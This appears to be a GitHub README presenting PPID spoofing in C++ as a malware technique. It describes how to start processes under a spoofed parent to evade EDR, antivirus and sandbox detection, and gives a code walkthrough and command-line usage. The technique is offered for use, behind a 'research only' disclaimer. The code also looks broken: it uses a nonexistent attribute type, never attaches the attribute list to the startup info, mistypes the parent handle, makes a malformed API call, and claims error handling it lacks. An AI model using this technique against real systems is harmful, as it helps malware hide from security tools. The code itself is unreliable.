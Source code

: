 # PPID Spoofing
## [![Typing SVG](https://readme-typing-svg.demolab.com?font=JetBrains+Mono&weight=2000&pause=1000&width=435&lines=Welcome+to+PPID+Spoofing+Malware+Technique!!!;Emplemanting+Process+Parent+ID+Spoofing+in+C++;Bypass+Detection+Mechanisms;For+Research+Purposes+Only)](https://git.io/typing-svg)

## Overview

Welcome to the **PPID Spoofing** repository! This project demonstrates a technique used to manipulate the Process Parent ID (PPID) of newly created processes. By spoofing the PPID, malicious processes can blend in with legitimate processes, bypassing detection mechanisms employed by security solutions such as EDRs, AVs, and sandboxes.

This repository serves as a practical guide and educational resource to learn how PPID spoofing works, along with sample code for implementation.

**Disclaimer**: This code is intended for Research purposes only. Any malicious use is strictly prohibited.

## Table of Contents

- [Overview](#overview)
- [How It Works](#how-it-works)
- [Code Walkthrough](#code-walkthrough)
- [Installation](#installation)
- [Usage](#usage)
- [Contributing](#contributing)
- [Disclaimer](#disclaimer)
- [License](#license)

## How It Works

PPID spoofing allows you to change the parent process of a newly created process, making it appear as though it is a child of an existing process. This technique can be used to bypass security detection that relies on parent-child relationships to identify suspicious processes.

The process is implemented using the Windows API:

1. **Set Extended Startup Info**: We initialize extended process attributes with `EXTENDED_STARTUPINFO_PRESENT`.
2. **Prepare Attribute List**: Using `InitializeProcThreadAttributeList`, we create an attribute list for the process.
3. **Update Parent Process Attribute**: With `UpdateProcThreadAttribute`, we set the PPID of the new process to that of the parent process we wish to spoof.
4. **Create Process**: Finally, `CreateProcessA` is used to launch the new process with the spoofed PPID.

---

## Code Walkthrough

The main function for PPID spoofing is `CreatePPidSpoofedProcess`. Here's a breakdown of how it works:

### Function: `CreatePPidSpoofedProcess`

```cpp
BOOL CreatePPidSpoofedProcess(
    DWORD hParentProcess, 
    LPCSTR lpProcessName, 
    LPDWORD dwProcessId, 
    PHANDLE hProcess, 
    PHANDLE hThread)
{
    // Prepare the necessary data structures
    STARTUPINFOA si = { sizeof(si) };
    PROCESS_INFORMATION pi;
    ZeroMemory(&pi, sizeof(pi));

    // Initialize extended process attributes
    PROCESS_ATTRIBUTE_LIST attributes;
    InitializeProcThreadAttributeList(&attributes, 1, 0);

    // Set parent process (PPID) attribute
    UpdateProcThreadAttribute(&attributes, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(hParentProcess));

    // Create the process with the spoofed PPID
    if (CreateProcessA(
            lpProcessName, 
            NULL, 
            NULL, 
            NULL, 
            FALSE, 
            EXTENDED_STARTUPINFO_PRESENT, 
            NULL, 
            NULL, 
            &si, 
            &pi))
    {
        *dwProcessId = pi.dwProcessId;
        *hProcess = pi.hProcess;
        *hThread = pi.hThread;
        return TRUE;
    }
    return FALSE;
}
```

### Key Points:
- **Inputs**:
  - `hParentProcess`: A handle to the parent process whose ID we want to spoof.
  - `lpProcessName`: The name of the process to launch with the spoofed PPID.
  
- **Outputs**:
  - `dwProcessId`: Process ID of the created process.
  - `hProcess`: Handle to the created process.
  - `hThread`: Handle to the primary thread of the created process.

The function initializes the required attributes, updates the PPID, and launches the new process. It includes error handling to ensure robustness.

---

## Installation

### Prerequisites

- Windows development environment (e.g., Visual Studio)
- Basic knowledge of Windows APIs and process creation

### Steps

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/YourUsername/PPID-Spoofing.git
   ```

2. **Open the Solution**:
   - Open `PPID-Spoofing.sln` in Visual Studio.

3. **Build the Solution**:
   - Set the configuration to `Release` or `Debug`.
   - Compile the solution.

4. **Run the Executables**:
   - Execute the compiled binary to test the PPID spoofing functionality.

---

## Usage

1. **Run the executable**:
   - Launch the executable from the command line, passing the target parent process ID as an argument:
   
   ```bash
   PPID-Spoofing.exe <ParentProcessID>
   ```

   Example:
   ```bash
   PPID-Spoofing.exe 1234
   ```

   This will spawn a process (`RuntimeBroker.exe`) with the specified PPID (1234).

2. **Verify Parent-Child Relationship**:
   - Use tools like Task Manager or Process Explorer to verify that the newly created process is associated with the spoofed parent process.

---

## Contributing

Contributions are welcome! If you have additional techniques or improvements to existing ones, feel free to submit a pull request. Please ensure your contributions adhere to ethical guidelines and are intended for educational and research purposes only.

---

## Disclaimer

This repository is for **Research and educational purposes only**. The techniques demonstrated here aim to educate security professionals on understanding and defending against such tactics. **Misuse of this information is strictly prohibited** and not supported by the author.

---

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
```
